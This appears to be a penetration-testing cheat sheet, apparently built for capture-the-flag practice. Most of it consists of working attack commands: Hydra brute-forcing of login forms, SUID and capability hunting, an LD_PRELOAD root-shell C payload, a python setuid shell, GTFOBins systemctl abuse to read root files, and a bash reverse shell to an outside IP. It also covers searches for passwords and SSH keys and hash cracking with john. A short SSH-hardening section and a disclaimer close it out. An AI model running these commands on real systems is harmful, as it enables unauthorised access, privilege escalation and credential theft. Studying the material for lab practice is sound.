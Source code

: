
### Hydra Commands

```bash
hydra -L usernames.txt -P passwords.txt -v 10.10.80.98 http-post-form "/login.php:username=^USER^&password=^PASS^:Please enter the correct credentials"
```
Without a username 
```bash
hydra -l '' -P 3digits.txt -f -v 10.10.177.254 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

### SSH Security Configuration Recommendations

SSH is the service that faces most of the outside attacks. Securing it is a top priority. Linux servers arrive from the manufacturer with SSH services. There’s plenty here you can configure for increasing security, but these are what we recommend you to start from:

- SSH default port is Port 22. Port 22 is known to have several vulnerabilities, so you better change the default configurations.
- Make sure that the Root account is inaccessible using SSH:
    ```bash
    PermitRootLogin no
    ```
- Password authentication must be replaced with key-based authentication. All this can be configured from /etc/ssh/sshd_config
- Allow some specific users:
    ```bash
    AllowUsers [Username]
    ```

This is just the tip of the ice when configuring SSH, and there is much more you can do. For example, some companies add banners to deter attackers and discourage them from continuing further.

### Important Command linux priviledge escaltion 

```find / -user root -perm /4000
find / -type f -perm /4000
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -user root -perm /4000
find / -type f -perm /4000
find / -type f -perm -04000 -ls 2>/dev/null 
```

## Capibilties

``` getcap -r / 2>/dev/null
```

## Spawing a python shell where you can use clear screen command 
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```


## Finding a particular file 
```
find / -type f -name root.txt 2> /dev/null
```

### Showmount Command

Use the showmount command to see if the remote machine is sharing anything across the network:

```bash
showmount -e <remote-ip>
```

### LD_PRELOAD Environment Exploitation

1. Type: sudo -l
2. Notice that the LD_PRELOAD environment variable is intact.
3. Exploitation:
    ```bash
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }
    ```
    - Save the file as x.c
    ```bash
    gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
    sudo LD_PRELOAD=/tmp/x.so apache2
    ```

### Reverse Shell Command

When the Python shell is obtained, you can use the following command to edit the crontab file then use below comamnd :
```bash
echo "bash -c 'bash -i >& /dev/tcp/10.17.88.198/1234 0>&1'" > root.sh
```

### Different Types of Base to identify 

- Base2: 01100010 01110010 01100101 01100001 01101011 01101001 01110100
- Base8: 142 162 145 141 153 151 164
- Base16: 62 72 65 61 6b 69 74
- Base32: MJZGKYLLNF2A====
- Base58: 4jP4KDubX1
- Base62: 22udqyscMu
- Base64: YnJlYWtpdA==
- Base85: @WH$gCM@k
- Base91: %zmfv;:YH

### SSH2John and John Commands

```bash
sudo ssh2john idrsa.id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```

## User Enumeration
To list all users on the system:
```sh
cat /etc/passwd | cut -d : -f 1
```

## Searching for Passwords
To find all instances of "PASSWORD=" in files across the system:
```sh
grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2>/dev/null
```

To search for filenames containing the word "password":
```sh
locate password | more
```

## Finding SSH Keys
To find all `id_rsa` files on the system:
```sh
find / -name id_rsa 2>/dev/null
```

## Using SSH Keys
If you find an `id_rsa` key, save it to a file:
```sh
chmod 600 id_rsa
ssh -i id_rsa root@<ip-address>
```

## Finding SUID Permissions
To check the permissions of `/usr/bin/chsh`:
```sh
ls -la /usr/bin/chsh
```

## Exploiting `/usr/bin/passwd` with systemctl (GTFOBins)
1. Create a temporary service file:
    ```sh
    TF=$(mktemp).service
    ```

2. Write the service file:
    ```sh
    echo '[Service]
    ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    [Install]
    WantedBy=multi-user.target' > $TF
    ```

3. Link the service file:
    ```sh
    sudo systemctl link $TF
    ```

4. Enable and start the service:
    ```sh
    sudo systemctl enable --now $TF
    ```

5. Check the output:
    ```sh
    cat /tmp/output
    ```

## Shared Object Injection
To find files with SUID and SGID bit set:
```sh
find / -perm -4000 -o -perm -2000 -exec ls -ld {} \; 2>/dev/null
```
If you find a binary like `/usr/local/bin/suid-so` with `rwsr-sr-x` permissions, it indicates that SUID and SGID bits are set.

## Checking Capabilities
To list all files with capabilities set:
```sh
getcap -r / 2>/dev/null
```

For example, if you find `/usr/bin/python2.6 = cap_setuid+ep`, it means all capabilities are enabled for this binary.

## Using Hashcat
To identify hash types, use:
```sh
hashcat --example-hashes
```

For specific hash types, refer to the [Hashcat documentation](https://hashcat.net/wiki/doku.php?id=example_hashes).

## Exploiting SUID with Shared Object Injection
To exploit a binary like `/usr/local/bin/suid-so`, you can use shared object injection if it’s vulnerable. Check permissions and capabilities to ensure the binary is exploitable.
```sh
./usr/local/bin/suid-so
```
```

### Disclaimer 🚨

⚠️ **Disclaimer:** The above content is not owned by me. It has been sourced from the internet for educational purposes only. I do not claim ownership or responsibility for the content provided. Please use it responsibly and in accordance with applicable laws and ethical guidelines.

